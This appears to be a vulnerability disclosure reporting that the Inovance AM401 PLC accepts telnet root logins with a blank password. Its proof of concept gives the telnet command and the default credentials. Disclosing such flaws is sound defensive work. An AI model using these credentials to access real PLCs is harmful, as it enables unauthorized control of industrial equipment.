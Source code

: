 # Summary
Inovance AM401 PLC telnet has a weak password vulnerability, attackers can log in to the PLC device through the weak password.
# Details
Connectivity test of the device:
![image](https://github.com/user-attachments/assets/44cff17b-8e33-4452-a99a-361b0d14bd49)

Telnet to the device:
```bash
telnet 192.168.1.88
```
Log in with a weak password, username `root`, and a blank password.
![image](https://github.com/user-attachments/assets/250a0a0c-303a-41b3-86ae-53306f0db7b0)


# PoC
```bash
telnet 192.168.1.88
```

username: root

password: (None)

# Discoverer
https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)
